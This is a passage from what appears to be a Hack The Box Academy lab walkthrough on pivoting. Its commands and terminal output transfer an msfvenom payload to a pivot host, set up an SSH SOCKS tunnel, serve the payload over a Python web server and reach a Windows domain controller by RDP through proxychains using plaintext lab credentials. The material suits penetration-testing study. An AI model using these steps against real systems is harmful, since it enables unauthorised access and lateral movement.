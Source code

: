 #### **Step 3: Transfer Msfvenom Payload to Pivot Host**
```bash
scp backupscript.exe ubuntu@STMIP:~/
```

**Expected Output:**
```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ scp backupscript.exe ubuntu@10.129.228.103:~/

ubuntu@10.129.228.103's password: 
backupscript.exe                              100% 7168    77.3KB/s   00:00
```

#### **Step 4: SSH Dynamic Port Forwarding to Pivot**
```bash
ssh -D 9050 ubuntu@STMIP
```

**Expected Output:**
```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ssh -D 9050 ubuntu@10.129.228.103

ubuntu@10.129.228.103's password: 

Last login: Thu May 12 17:27:41 2022
ubuntu@WEB01:~$ ls
backupscript.exe
```

#### **Step 5: Start Python Web Server on Ubuntu**
```bash
python3 -m http.server 8123
```

**Expected Output:**
```
ubuntu@WEB01:~$ python3 -m http.server 8123

Serving HTTP on 0.0.0.0 port 8123 (http://0.0.0.0:8123/) ...
```

#### **Step 6: Connect to Windows Target via Proxychains**
```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

**Expected Output:**
```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

ProxyChains-3.1 (http://proxychains.sf.net)
[15:02:07:519] [3249:3250] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state

<SNIP>

Certificate details for 172.16.5.19:3389 (RDP-Server):
	Common Name: DC01.inlanefreight.local
	Subject:     CN = DC01.inlanefreight.local
	Issuer:      CN = DC01.inlanefreight.local
	Thumbprint:  07:5d:3e:b7:27:4b:83:87:d3:68:b6:90:fc:0e:26:67:c3:6c:13:f0:b8:0f:c1:1e:51:05:2c:3f:f5:4d:54:2e
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
```